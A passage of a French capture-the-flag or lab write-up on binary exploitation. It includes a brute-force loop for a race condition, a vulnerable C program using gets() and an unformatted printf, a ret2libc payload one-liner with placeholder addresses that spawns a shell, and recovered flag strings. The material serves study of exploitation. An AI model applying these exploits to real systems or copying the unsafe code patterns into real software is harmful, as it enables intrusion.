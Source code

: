 ```
while true; do ./ex04 /tmp/geo/random 2> /dev/null; done
0WPRihGwXg6X7qactvwjZ5QVOGK6zt16
```

La vulnérabilité repose sur le fait que la sécurité a été implémenté (mal,
qui le plus) dans la logique de l'application et non en terme de permissions.


## Exercice 05

```c
#include <stdio.h>
#include <string.h>

int main()
{
    char buf[256];

    gets(buf);
    printf(buf);

    return 0;
}
```

On ne peut pas mettre le shellcode dans la pile car pas exécutable. On
va donc faire un *ret2libc*.

On se prend l'adresse de `system()`, l'adresse de `"/bin/sh"`... On trouve
à taton l'offset qu'il faut pour écraser EIP puis :


```
ex05@debian:~$ ./exo02 $(python2 -c 'print "A" * OFFSET + BIN_SH_ADDR + "A" * 4 + SYSTEM_ADDR')
```

Et `0zHQDYAfiluiXcxKwvzSIcts3CALijyU`.


## Exercice 06

Hein ?


## Exercice 07

Il faut que les étudiants nous parlent.
